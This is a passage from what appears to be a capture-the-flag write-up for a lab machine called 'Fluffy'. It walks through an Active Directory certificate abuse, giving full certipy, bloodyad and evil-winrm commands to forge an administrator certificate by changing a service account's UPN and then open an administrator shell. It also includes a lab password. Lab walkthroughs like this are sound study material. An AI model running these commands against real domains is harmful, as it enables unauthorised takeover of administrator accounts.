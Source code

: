 3.  **Request a Certificate as `CA Service` (with `administrator` UPN):**
    Request a certificate using the `CA service` account's credentials, but with the UPN set to `administrator`.

    ```bash
    certipy req -u 'CA service' -hashes <NTLM_hash_of_CA_Service> -ca 'fluffy-DC01-CA' -template User -upn administrator -dc-ip 10.10.11.69 -output administrator.pfx
    ```

    This command generates a `.pfx` file (e.g., `administrator.pfx`) that contains a certificate with the Subject Alternate Name (SAN) of `administrator`.

4.  **Reset `CA Service` UPN:** Change the `CA service` UPN back to its original value (e.g., `caservice@fluffy.htb`). This is crucial because if the `CA service` account's UPN is `administrator`, the certificate would map to the `CA service` account and not the actual `administrator` account, causing authentication to fail.

    ```bash
    bloodyad set-user-property --identity 'CA Service' --property userprincipalname --value 'caservice@fluffy.htb' -u pagula -p 'PrometheusX303' --host 10.10.11.69 --domain fluffy.htb
    ```

5.  **Authenticate as Administrator using the PFX Certificate:**
    Use `evil-winrm` and the generated `.pfx` file to authenticate as the `administrator`.

    ```bash
    evil-winrm -i 10.10.11.69 -u Administrator -pfx administrator.pfx
    ```

    This will grant you an interactive PowerShell session as the `Administrator` user. You can then navigate to the Desktop to retrieve the `root.txt` flag.